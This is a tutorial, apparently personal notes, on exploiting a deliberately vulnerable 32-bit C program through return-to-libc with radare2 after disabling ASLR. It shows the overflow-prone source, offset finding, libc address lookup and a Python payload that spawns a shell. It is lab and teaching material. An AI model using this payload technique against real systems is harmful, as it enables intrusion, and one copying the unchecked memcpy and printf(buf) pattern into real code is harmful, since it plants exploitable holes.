 ## Return-to-libc with radare2 with no ASLR ##

The exploit is based on the descriptions by Saif El-Sherei: <https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf>.
Read this pdf for details on how return to libc works in detail.
This document focuses on using radare2 for the exploit.

### Compiling ###

```
% cat bufoverflow.c                             :(
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[])
{
    char buf[256];
    memcpy(buf, argv[1],strlen(argv[1]));
    printf(buf);
}
% gcc -m32 -mpreferred-stack-boundary=2 bufoverflow.c -o bufoverflow
```

The idea is to overwrite the return address of the main function with a function address we took from the libc.

We compile a 32 bit binary to make the task easier, because otherwise the function addresses we need to pass would contain zeros, and `strlen` would return a smaller number of chars than we initially wanted to `memcpy`.
Furthermore, with `-mpreferred-stack-boundary=2` we tell GCC to align the stack to a 4-byte boundary.
If we specified  `-mpreferred-stack-boundary=4`, the stack would be aligned to a 16-byte boundary, which would change the amount of A's we need to pass to the binary to be exploited.

Furthermore, we have to deactivate the ASLR. To do this system-wide, zero has to be written to the right proc file.
```
% echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

### Finding the right offset ###

The buffer is 256 chars wide. The frame pointer (ebp) is pushed to the stack as part of the function prologue, which adds another 4 byte. Furthermore, ebx (4 byte again) is saved by gcc as a callee-saved register.

```
0x08048466      55             push ebp
0x08048467      89e5           mov ebp, esp
0x08048469      53             push ebx
0x0804846a      81ec00010000   sub esp, 0x100
```

In sum, we have to pass 264 random chars (usually A's are used) to the program, followed by the 4 byte of new return address we want to overwrite the original address with.

```
% ./bufoverflow `python -c "print 'A'*260"`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%
```

When passing 268 A's, the return address is overwritten. We can check that using the linux tool `strace`.

```
% strace ./bufoverflow `python -c "print 'A'*268"` 
....
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
+++ killed by SIGSEGV +++
[1]    9950 segmentation fault  strace -f ./bufoverflow `python -c "print 'A'*268"`
```

### Finding the symbol addresses ###

Basically, we want to execute `system("/bin/sh")`, using the symbols we already have in the libc.
Therefore, we want to put the following data on the stack.

```
| 264 garbage-A's | addr_system | 4 byte garbage | addr_string_bin_sh |
```

First we need to find the address of the function `system()` and the string `/bin/sh` in the libc.
We start radare2 in debug mode (`radare2 -d PROGNAME`).

```
% radare2 -d bufoverflow
Process with PID 7286 started...
= attach 7286 7286
bin.baddr 0x56555000
Using 0x56555000
asm.bits 32
Continue until 0x5655557d using 1 bpsize
hit breakpoint at: 5655557d
```

In radare2, `-d PROGNAME PROGARGS` has to be the last option passed, since otherwise the following arguments are interpreted as arguments to the program to be debugged instead of to radare2.

The program arguments can also be passed inside of radare2 using the command `> ood foo`.


The command `dcu main` (debug continue until) executes the program until main is reached. In that manner, we can be sure that the libraries are already loaded when we want to analyze them.
Or you just put `e dbg.bep=main` into your `~/.radare2rc`, so that each program started in debug mode will break when `main()` is reached.

Next, we search for the address of the function `system` (dmi = debug memory).
```
[0x5655557d]> dmi libc system
vaddr=0xf7efcd70 paddr=0x00113d70 ord=246 fwd=NONE sz=68 bind=GLOBAL type=FUNC name=svcerr_systemerr
vaddr=0xf7e23b40 paddr=0x0003ab40 ord=628 fwd=NONE sz=55 bind=GLOBAL type=FUNC name=__libc_system
vaddr=0xf7e23b40 paddr=0x0003ab40 ord=1461 fwd=NONE sz=55 bind=WEAK type=FUNC name=system
```
The syntax is `dmi LIB_NAME SYMBOL_NAME`.
The `system()` address in my case is 0xf7e23b40.

_In my case, and error code 1 was returned in radare2 when searching symbols in the library. The solution was to copy the binary to another directory. No idea, why that worked._
```
[0xf7e67b06]> dmi libc system
error code 1
```

Next, we search for the address of the string "/bin/sh" in the libc.
The radare2 command for searching strings is `/ STRING`.
To search the string starting from a certain address, execute `/ STRING @ address`.
```
[0x5655557d]> dmi
0x56555000 /tmp/bufoverflow
0xf7de9000 /lib/i386-linux-gnu/libc-2.24.so
0xf7fd9000 /lib/i386-linux-gnu/ld-2.24.so
[0x5655557d]> / /bin/sh @0xf7de9000
Searching 7 bytes from 0x00000000 to 0xffffffffffffffff: 2f 62 69 6e 2f 73 68
Searching 7 bytes in [0xf7de9000-0xf7f9a000]
hits: 1
0xf7f45dc8 hit0_0 .b/strtod_l.c-c/bin/shexit 0canonica.
```

An equivalent chain of commands is seeking to the address where the libc is mapped and performing the string search there.
```
[0x5655557d]> s 0xf7de9000
[0xf7de9000]> / /bin/sh
Searching 7 bytes from 0x00000000 to 0xffffffffffffffff: 2f 62 69 6e 2f 73 68
Searching 7 bytes in [0xf7de9000-0xf7f9a000]
hits: 1
0xf7f45dc8 hit2_0 .b/strtod_l.c-c/bin/shexit 0canonica.
```

The address of the string is therefore `0xf7f45dc8`.

### Scripting the input ###
With a python script we can construct the input and directly pass it to the binary.

```
% cat input.py
import struct

addr_shellstr=struct.pack("<I", 0xf7f45dc8)
addr_sys=struct.pack("<I", 0xf7e23b40)

print 'A'*264+addr_sys+'D'*4+addr_shellstr
```

```
% ./bufoverflow `python input.py`
$
```

We can also directly pass the input the binary.
```
% ./bufoverflow `python -c "print 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@;\xe2\xf7DDDD\xc8]\xf4\xf7'"`
```

The reason why we have to use python here is that otherwise the shell is interpreting the hex values and they don't get passed to the binary.
